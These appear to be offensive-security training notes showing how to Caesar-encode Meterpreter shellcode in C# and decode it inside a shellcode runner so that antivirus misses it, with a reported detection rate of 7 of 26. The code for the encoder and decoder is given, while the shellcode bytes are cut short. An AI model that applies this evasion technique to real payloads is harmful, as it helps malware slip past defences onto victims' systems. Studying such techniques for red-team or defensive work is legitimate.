

## Ceaser Cypher
When we tried to use encryption with msfvenom, we took advantage of the highly secure and complex aes256 encryption algorithm, but implementing an aes256 decryption routine is not straightforward so we will opt for the much less secure, but easier-to-use [_Caesar Cipher_](http://practicalcryptography.com/ciphers/caesar-cipher/).

The first step is to create an application that can encrypt our shellcode. We'll create a new C# Console App project in Visual Studio called "Helper".

We'll generate Meterpreter shellcode, embed it in the C# code, and implement the encryption routine as follows:
```c#
namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                
            byte[] encoded = new byte[buf.Length];
            for(int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
```

We did a couple of things here:
1. we chose a substitution key of 2, iterated through each byte value in the shellcode, and simply added 2 to its value
2. We performed a bitwise AND operation with 0xFF to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds 0xFF.

We now need to use this encrypted shellcode, which we can by printing it to console by converting the byte array into string with [_StringBuilder_] class and it's associated, [_AppendFormat_] method, as follows:
```C#
StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach(byte b in encoded)
{
    hex.AppendFormat("0x{0:x2}, ", b);
}

Console.WriteLine("The payload is: " + hex.ToString());
```

In this:
1. Each substring starts with 0x followed by the formatted byte value.
2. In the format string, we are specifying a two-digit number in hexadecimal format.
			- the first value of the format string (0:) specifies the first argument that is to be formatted, which is the byte value.
			- The second part (x2) is the format specification, in which "x" indicates hexadecimal output and "2" indicates the number of digits in the formatted result.

Compiling this and providing our shellcode as the argument for our executable, we are able to print a ceaser cypher encrypted shellcode:



We will now, go back to our shellcode runner, and start working on the decryption key.
Since the decryption sequence reverses the encryption sequence we'll use the substitution key of 2 and subtract instead.
This can be done as follows:
```C#
for(int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
```

Using Antiscan.Me, we can see that only 7/26 antivirus products are able to detect our shellcode runner.
